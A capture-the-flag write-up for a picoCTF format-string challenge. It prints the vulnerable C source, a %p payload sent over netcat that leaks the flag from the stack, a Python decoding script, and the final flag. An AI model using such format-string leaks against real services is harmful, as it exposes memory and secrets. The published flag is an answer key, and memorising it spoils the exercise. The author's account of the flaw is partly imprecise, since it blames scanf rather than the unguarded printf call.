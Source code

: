 # Description: 
I'm just copying and pasting with this `program`. What can go wrong? 

You can view source `here`. And connect with it using: `nc saturn.picoctf.net 60610`

This is the program provided:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
# Solution:
The challenge involves a vulnerability or task with specific lines of code:
scanf("%127s", story); is used to read input, potentially vulnerable to buffer overflow or input manipulation.
The pointer buf in the _readflag_ function is associated with reading and storing the contents of the flag.txt file.
the %p format specifier to print the address of the buf pointer in hexadecimal. This can be useful for examining memory or exploiting format string vulnerabilities.
> Last login: Wed Dec 11 22:20:11 on ttys000
> apurva@Deepas-MacBook-Air ~ % nc saturn.picoctf.net 57874
> Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%
> Here's a story - 
> 0xffd6ce500xffd6ce700x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x80483380xf4114d200xf3f99ab00x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x303666350x7d3731360xfbad20000xbe3fc700(nil)0xf41509900x804c0000x8049410(nil)0x804c0000xffd6cf380x80494180x20xffd6cfe4
> apurva@Deepas-MacBook-Air ~ % 
inputted %p 128 times since the story's length is 128 then converted this address to its raw value aka UTF-8 using codechef.
> To extract and convert the raw memory addresses from the output you provided, we need to isolate the hexadecimal values (0x...) that are valid addresses, ignoring any invalid ones (like (nil) or sequences without proper 0x prefixes).
> Then i converted each hex value into ASCII which lead me to realise i had to reverse each block of 4 charecters. Used GPT to write some python code to do so (attached below)
> # Encoded flag values as provided
encoded_flag_hex = [
    0x6f636970, 0x7b465443, 0x6b34334c, 0x5f676e31, 0x67346c46,
    0x6666305f, 0x3474535f, 0x395f6b63, 0x30366635, 0x7d373136
]

# Function to decode the flag
def decode_flag(encoded_hex):
    decoded_flag = ""
    for hex_value in encoded_hex:
        # Convert hex to a string
        chars = f"{hex_value:08x}"  # Ensure 8 characters for proper grouping
        # Reverse each block of 4 characters and append to the decoded flag
        reversed_block = chars[6:8] + chars[4:6] + chars[2:4] + chars[0:2]
        decoded_flag += bytes.fromhex(reversed_block).decode('ascii')
    return decoded_flag

# Decode the flag
decoded_flag = decode_flag(encoded_flag_hex)
decoded_flag

Which then gave me the decoded flag.

# Flag:
> picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}



